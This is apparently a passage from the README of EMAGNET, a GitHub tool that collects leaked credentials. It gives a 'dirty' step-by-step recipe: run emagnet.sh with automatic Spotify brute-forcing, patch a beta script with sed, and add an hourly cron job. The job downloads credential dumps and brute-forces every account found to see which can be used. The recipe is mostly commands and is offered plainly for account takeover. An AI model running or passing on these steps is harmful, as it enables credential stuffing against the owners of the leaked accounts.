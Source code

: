 ### End

Seriously, my skills for javascript SUCKS - Feel free to build something more cool with the above, if you do - Please contribute!

### Update: 2022-05-10 

Visit [releases](https://github.com/wuseman/EMAGNET/releases) for more info about the beta script.

Simple example how things can be done, no support will be given for this - Wait for a future release please.

Step By Step! Dirty Version! Until I get everything together into one script. 

----- `Tab 1`
```sh
git clone git@github.com:/wuseman/emagnet
cd emagnet
    
# Set time to 1 hour + 10 seconds (add more seconds if your bw is very slow)
bash emagnet.sh -t 3610
    
# Run emagnet in screen with auto spotify bruteforce enable.. 
bash emagnet.sh -q -b spotify 
    
# Or without screen if you wanna see in realtime wich account is valid and available to use
`bash emagnet.sh -b spotify 
```

----- `Tab 2` - Keep above running in background or in another tab

```sh
# Source emagnet.conf, place the line under the vERSION="4.0.0" in emagnet-v4.0.0.-beta.sh
BLINE=$(awk '/vERSION="4.0.0"/ {print NR+1}' emagnet_v4.0.0-beta.sh)
    
# Insert ". ~/emagnet/emagnet.conf" via sed or do it manually lets_pwn wherever you want
# but it must be outside any function and before the lets_pwn() { function..
# Just copy and paste BLINE above line and this line in emagnet dir and its done
sed "${BLINE}i . ~/.emagnet/emagnet.conf" ./emagnet_v4.0.0-beta.sh
    
# Now you must change folders in beta script so emagnet.sh can grab accounts to bruteforce:
sed 's/nPATH="$HOME\/emagnet-temp//nPATH="$EMAGNETHOME/.temp"/g' emagnet_v4.0.0-beta.sh
      
# Add a cronie line for emagnet beta to be executed every 60min + 10sec (36010ecs) **before** autobruter will be executed from Tab 1 (edit folder)
(crontab -l 2>/dev/null; echo "*/60 * * * * sleep 10; bash ~/scripts/emagnet_v4.0.0-beta.sh -e") | crontab -
```

----- `Result / Explanation / Summary`

Every hour `emagnet_v4.0.0-beta.sh` is executed via cronie(crontab) in background and this will download all files to .temp dir
and...10 seconds later....`emagnet.sh` is executed and will check .temp dir and if there is any accounts found emagnet will bruteforce
all these accounts in background! 
    